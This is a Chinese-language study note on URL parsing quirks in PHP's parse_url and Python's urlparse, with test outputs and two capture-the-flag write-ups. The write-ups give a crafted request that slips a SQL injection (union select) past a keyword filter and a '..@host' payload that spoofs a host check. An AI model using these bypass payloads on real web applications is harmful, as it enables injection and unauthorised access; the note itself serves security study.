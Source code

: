 ### 端口解析tricks
```
<?php

$url = "/baidu.com:80";
$url1 = "/baidu.com:80a";
$url2 = "//pupiles.com/about:1234";
$url3 = "//baidu.com:80a";

var_dump(parse_url($url));
var_dump(parse_url($url1));
var_dump(parse_url($url2));
var_dump(parse_url($url3));
```

我们来看一下输出结果:

```
bool(false)
/home/lj/bin/php/bin/parse1.php:11:
array(1) {
  'path' =>
  string(14) "/baidu.com:80a"
}
/home/lj/bin/php/bin/parse1.php:12:
array(3) {
  'host' =>
  string(11) "pupiles.com"
  'port' =>
  int(1234)
  'path' =>
  string(11) "/about:1234"
}
/home/lj/bin/php/bin/parse1.php:13:
array(2) {
  'host' =>
  string(9) "baidu.com"
  'port' =>
  int(80)
}
```

第一种情况解析错误，但只要我们在端口后加一个字符，就又可以解析出path了


第二种情况我们在路径后面加上`:` 还是可以解析出端口号

第三种情况，说明对端口号做了intval类型转换。

我们可以看一下python 的urlparse解析出来的结果
```
ParseResult(scheme='', netloc='', path='/baidu.com:80', params='', query='', fragment='')
ParseResult(scheme='', netloc='', path='/baidu.com:80a', params='', query='', fragment='')
ParseResult(scheme='', netloc='pupiles.com', path='/about:1234', params='', query='', fragment='')
ParseResult(scheme='', netloc='baidu.com:80a', path='', params='', query='', fragment='')
```

## 路径解析tricks

```
$url4 = "/upload?/test/";
$url5 = "//upload?/test/xx/";
$url6 = "//upload/test/";

var_dump(parse_url($url4));
var_dump(parse_url($url5));
var_dump(parse_url($url6));
```

php7输出结果为:
```
array(2) {
  'path' =>
  string(7) "/upload"
  'query' =>
  string(6) "/test/"
}
/home/lj/bin/php/bin/parse1.php:22:
array(2) {
  'host' =>
  string(6) "upload"
  'query' =>
  string(9) "/test/xx/"
}
/home/lj/bin/php/bin/parse1.php:23:
array(2) {
  'host' =>
  string(6) "upload"
  'path' =>
  string(6) "/test/"
}
```

在php5 中对于url5的解析有不一样:
```
F:\sublime\php\audit\5\parse2.php:22:
array(2) {
  'host' =>
  string(7) "upload?"
  'path' =>
  string(9) "/test/xx/"
}
```
`upload?`后面的内容被解析出path，而不是query了。

开头`/` 会被解析成path部分，但`//`会被解析成host

python 的urlparse解析也有这个问题
```
ParseResult(scheme='', netloc='', path='/upload', params='', query='/test/', fragment='')
ParseResult(scheme='', netloc='upload', path='', params='', query='/test/xx/', fragment='')
ParseResult(scheme='', netloc='upload', path='/test/', params='', query='', fragment='')
```

### host解析tricks



参考； http://pupiles.com/%E8%B0%88%E8%B0%88parse_url.html

另外，parse_url一般会用来解析$SERVER变量，其中的几个常用变量：
```
echo $_SERVER['REQUEST_URI']."<br/>";
echo $_SERVER['QUERY_STRING']."<br/>";
echo $_SERVER['HTTP_HOST']."<br/>";

#访问http://localhost:3000/php/audit/5/parse1.php?url=baidu.com#test
>>>
/php/audit/5/parse1.php?url=/baidu.com
url=/baidu.com
localhost:3000
```

可以看到REQUEST_URI 是path+query部分(不包含fragment)

QUERY_STRING: 主要是`key=value`部分

HTTP_HOST 是 `netloc+port` 部分。

更多的$_SERVER的值请查看:http://php.net/manual/zh/reserved.variables.server.php

### demo

demo1:
2016asisctf中的一题

```
<?php 
function waf(){
    $INFO = parse_url($_SERVER['REQUEST_URI']);
    var_dump($INFO);
    var_dump($_GET);
    parse_str($INFO['query'], $query);
    $filter = ["union", "select", "information_schema", "from"];
    foreach($query as $q){
        foreach($filter as $f){
            if (preg_match("/".$f."/i", $q)){ 
                die("attack detected!");
            }
        }
    }

    $sql = "select * from ctf where id='".$_GET['id']."'";
    var_dump($sql);
}
waf();
```

我们只需要传入: `http://localhost:83//parse3.php?/1=1&id=1%27%20union%20select%201,2,3%23`

这样，就可以绕过waf函数的绕过。

因为parse_url解析后的REQUEST_URI为:
```
array (size=2)
  'host' => string 'parse3.php?' (length=11)
  'path' => string '/1&id=1%27%20union%20select%201,2,3%23' (length=38)
```

但是我们的$_GET 的参数是可以获取到我们的两个参数:
```
array (size=2)
  '/1' => string '' (length=0)
  'id' => string '1' union select 1,2,3#' (length=22)
```

我们只要加一个混淆参数`/1=1` 就可以让parse_url的解析失败。


### 网鼎杯第三场comein
```
<?php
ini_set("display_errors",0);
$uri = $_SERVER['REQUEST_URI'];
if(stripos($uri,".")){
    die("Unkonw URI.");
}
if(!parse_url($uri,PHP_URL_HOST)){
    $uri = "http://".$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI'];
}
$host = parse_url($uri,PHP_URL_HOST);
var_dump(parse_url($uri));
if($host === "c7f.zhuque.com"){
    setcookie("AuthFlag","flag{*******}");
}
```

这里stripos 绕过只需要我们第一位是`.`即可。

重点是绕过parse_str函数。

payload: 

    ..@c7f.zhuque.com/..//index.php

![image](https://note.youdao.com/yws/public/resource/2df4cd8103642ad1db9be19e6b50bbd4/85991F83F52E467CBE72F74628ED7571?ynotemdtimestamp=1538657944827)

我们来看一下parse_str解析出来的结果:

```
$url7 = "http://localhost..@c7f.zhuque.com/..//index.php";
var_dump(parse_url($url7));

>>>
array(4) {
  'scheme' =>
  string(4) "http"
  'host' =>
  string(14) "c7f.zhuque.com"
  'user' =>
  string(11) "localhost.."
  'path' =>
  string(14) "/..//index.php"
}
```

parse_str 把@前面的内容当作user:password 的认证信息了,从而解析出host为`c7f.zhuque.com`

这题我们没法在浏览器中直接访问payload, 因为浏览器的解析规则会认为`@`是一个重定向，从而调整到c7f.zhuque.com网站。

我们直接抓包来看一下apache的解析结果。

apache 成功解析出了`/index.php`的内容。而且必须是`..//` 才能解析出index.php

> 注意apache,浏览器，parse_uri的解析规则是不一样的，apache的解析规则就是按照请求包里面的host来解析的，但浏览器是按照[scheme]://[user:pass@]host:port/path?key=value#fragment` 这样来解析出来host,然后构造请求包的。 parse_url虽然是依照浏览器的要求来解析的，但也会出现一些问题。



